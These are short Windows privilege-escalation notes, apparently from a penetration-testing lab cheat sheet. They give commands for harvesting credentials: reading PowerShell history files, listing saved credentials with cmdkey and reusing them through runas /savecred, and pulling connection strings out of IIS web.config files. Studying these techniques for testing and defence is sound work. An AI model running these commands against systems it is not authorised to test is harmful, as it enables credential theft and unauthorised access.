 ### **PowerShell History** <a href="#id-7slm7z4b3las" id="id-7slm7z4b3las"></a>

* Commands run using PowerShell are stored in a file.
* Useful for quickly repeating commands used before.
* User may include a password directly in a command.
* Retrieve history using cmd.exe.

`%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSreadline\ConsoleHost_history.txt`

* Retrieve history using PowerShell.

`$ENV:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSreadline\ConsoleHost_history.txt`

### **Saved Windows Credentials** <a href="#id-7s7e4fq564cw" id="id-7s7e4fq564cw"></a>

* Windows allows other credentials to be used.
* List saved credentials (cannot see passwords).

`cmdkey /list`

* Sample output.

Currently stored credentials:

Target: Domain:interactive=WPRIVESC1\mike.katz

Type: Domain Password

User: WPRIVESC1\mike.katz

* Try any "interesting" credentials using runas.

`runas /savecred /user:mike.katz cmd.exe`

### **Internet Information Services (IIS) Configuration** <a href="#id-61p4xiqh2hla" id="id-61p4xiqh2hla"></a>

* Default web server on Windows.
* Configuration stored in web.config file.
  * This may store database passwords or configured authentication mechanisms.
* Possible web.config locations.
  * C:\inetpub\wwwroot\web.config
  * C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
* Find database connection string in the file.

`type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`

* Sample output.

`<add connectionStringName="LocalSqlServer" maxEventDetailsLength="1073741823" buffer="false" bufferMode="Notification" name="SqlWebEventProvider" type="System.Web.Management.SqlWebEventProvider,System.Web,Version=4.0.0.0,Culture=neutral,PublicKeyToken=b03f5f7f11d50a3a" />`

`<add connectionStringName="LocalSqlServer" name="AspNetSqlPersonalizationProvider" type="System.Web.UI.WebControls.WebParts.SqlPersonalizationProvider, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" />`
